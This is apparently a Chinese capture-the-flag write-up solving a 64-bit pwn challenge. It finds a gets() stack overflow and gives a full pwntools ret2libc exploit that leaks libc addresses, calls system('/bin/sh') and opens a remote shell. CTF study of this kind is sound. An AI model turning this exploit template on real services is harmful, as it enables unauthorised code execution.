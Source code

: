 ![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711351646091-473c80bb-b081-42ab-8ac4-c0056c3d0612.png#averageHue=%23252b31&clientId=u620920a9-0c5a-4&from=paste&height=837&id=udceb363e&originHeight=837&originWidth=743&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77709&status=done&style=none&taskId=uf8026596-f5cf-4eba-8c81-54db3d2e112&title=&width=743)
### 下载好附件之后，先丢到 checksec 看一下开了什么保护
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352413112-e07b4481-0817-474b-a5fa-d8798dd613aa.png#averageHue=%230f2427&clientId=u620920a9-0c5a-4&from=paste&height=232&id=u89d82581&originHeight=232&originWidth=510&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68848&status=done&style=none&taskId=ua511d451-1fed-4ec3-a568-a8a36e7e009&title=&width=510)
### 有栈溢出：Stack:    No canary found
### 丢到IDE看一下
按 shift+f12 看一下字符串，发现没有system和/bin/sh
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352579899-135f5402-e48a-4ea6-b344-852335ccc132.png#averageHue=%23474643&clientId=u620920a9-0c5a-4&from=paste&height=778&id=u4db6c5e4&originHeight=778&originWidth=1270&originalType=binary&ratio=1&rotation=0&showTitle=false&size=99914&status=done&style=none&taskId=u2ce971c1-d1e2-43e4-b876-c32c3f0e983&title=&width=1270)
回到上方标签（ IDA View-A ）回到主界面按f5查看伪代码
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352692527-afcf4d9d-6877-4d39-a135-4f0eb2c97599.png#averageHue=%23312f2e&clientId=u620920a9-0c5a-4&from=paste&height=611&id=ud92e9b96&originHeight=611&originWidth=681&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51416&status=done&style=none&taskId=u13a2e265-49fe-4f58-b123-01d09949aa7&title=&width=681)

发现encrypt()函数存在gets溢出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352763184-253e4de4-f0d8-49da-9571-6c0791920b65.png#averageHue=%23302f2e&clientId=u620920a9-0c5a-4&from=paste&height=571&id=ub68ac996&originHeight=571&originWidth=432&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29792&status=done&style=none&taskId=ub44cb765-8eae-416f-95fd-f22e5563db2&title=&width=432)

gets没有任何限制，但是储存用户输入的s只有50的大小，加上r的大小就能溢出
双击s查看
```
0000000000000050 s db 48 dup(?)   // s的大小只有50
-0000000000000020 anonymous_0 dw ?
-000000000000001E db ? ; undefined
-000000000000001D db ? ; undefined
-000000000000001C db ? ; undefined
-000000000000001B db ? ; undefined
-000000000000001A db ? ; undefined
-0000000000000019 db ? ; undefined
-0000000000000018 db ? ; undefined
-0000000000000017 db ? ; undefined
-0000000000000016 db ? ; undefined
-0000000000000015 db ? ; undefined
-0000000000000014 db ? ; undefined
-0000000000000013 db ? ; undefined
-0000000000000012 db ? ; undefined
-0000000000000011 db ? ; undefined
-0000000000000010 db ? ; undefined
-000000000000000F db ? ; undefined
-000000000000000E db ? ; undefined
-000000000000000D db ? ; undefined
-000000000000000C db ? ; undefined
-000000000000000B db ? ; undefined
-000000000000000A db ? ; undefined
-0000000000000009 db ? ; undefined
-0000000000000008 db ? ; undefined
-0000000000000007 db ? ; undefined
-0000000000000006 db ? ; undefined
-0000000000000005 db ? ; undefined
-0000000000000004 db ? ; undefined
-0000000000000003 db ? ; undefined
-0000000000000002 db ? ; undefined
-0000000000000001 db ? ; undefined
+0000000000000000  s db 8 dup(?)
+0000000000000008  r db 8 dup(?) // r 的大小有8
```
### 开始构造第一个payload
因为这个程序是64位的，要查看指令地址
在kali里面运行命令：
```bash
ROPgadget --binary pwn --only "pop|ret"
# 这里的 pwn 是你的文件名，我为了方便改了
```
得到结果：
```bash
Gadgets information
============================================================
0x0000000000400c7c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c80 : pop r14 ; pop r15 ; ret
0x0000000000400c82 : pop r15 ; ret
0x0000000000400c7b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop rbp ; ret
0x0000000000400aec : pop rbx ; pop rbp ; ret
0x0000000000400c83 : pop rdi ; ret // 记住这个地址 0x400c83
0x0000000000400c81 : pop rsi ; pop r15 ; ret
0x0000000000400c7d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b9 : ret // 记住这个地址 0x4006b9
0x00000000004008ca : ret 0x2017
0x0000000000400962 : ret 0x458b
0x00000000004009c5 : ret 0xbf02

Unique gadgets found: 15
```
构造payload
tips：因为gets的s参数的大小只有50，r的大小有8。这两个数值都是16进制,所以
```python
b'a' * (0x50+0x8) # 溢出的大小 
```
## 完整exp
```python
def payload(url, port):
    context(arch="amd64",os="linux",log_level="debug")
    elf = ELF('./pwn') # 文件路径
    p = remote(url,port)
    # 指令地址
    pop_rdi_ret = 0x400c83
    ret = 0x4006b9
    # 查找地址
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    # 加密函数地址
    enc = elf.sym['encrypt']
    # 构造payload
    pd1 = b'a' * (0x50+8) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(enc)
    # 发送选项1，选择加密
    p.sendlineafter('choice!',str(1))
    # 发送payload到加密函数的输入上去
    p.sendlineafter('encrypt',pd1)
    # 找到libc地址
    put = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print(hex(put)) 
    # 输出
    """ >>> 0x7f2961b099c0 """
    print('选择 libc6_2.27-0ubuntu2_amd64')
    libc = LibcSearcher('puts',put)
    libc_base = put - libc.dump('puts')
    # 获取system和sh
    def addr(hx):
        if hx == 'system':
            return libc_base + libc.dump('system')
        elif hx == 'str_bin_sh':
            return libc_base + libc.dump('str_bin_sh')
        hx = ''
    sys_addr = addr('system')
    sh_addr = addr('str_bin_sh')
    print(hex(sys_addr),hex(sh_addr))
    
    # 构造第二个payload
    pd2 = b'a' * 0x58 + p64(ret) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
    # 利用
    p.sendlineafter('encrypt',pd2)
    p.interactive()

if __name__ == '__main__':
    from pwn import *  # 导入pwntools库 
    # Windows没有库的话，安装命令：pip install pwntools
    from LibcSearcher import *  # 导入LibcSearcher库 
    url = ''  # 题目地址
    payload(url.split(":")[0], url.split(":")[1])  # 调用payload函数进行渗透
```
### 运行提示
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354129056-95ca2de8-de74-41a4-98d5-c08e3d114d3f.png#averageHue=%23282624&clientId=u620920a9-0c5a-4&from=paste&height=723&id=ub5aff1b5&originHeight=723&originWidth=721&originalType=binary&ratio=1&rotation=0&showTitle=false&size=78750&status=done&style=none&taskId=ubb332ef5-0879-4ddb-8e14-c52e7bcca2b&title=&width=721)

看到有一排的a时，输入命令：ls
ls 运行完后 输出 cat flag得到

![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354169453-c9eaac9e-f6ac-4f71-bcbc-fbe6e25f0f7d.png#averageHue=%23252423&clientId=u620920a9-0c5a-4&from=paste&height=707&id=uf1a28670&originHeight=707&originWidth=547&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39501&status=done&style=none&taskId=ua50f74f6-32df-4596-b9b9-5280a4d6056&title=&width=547)
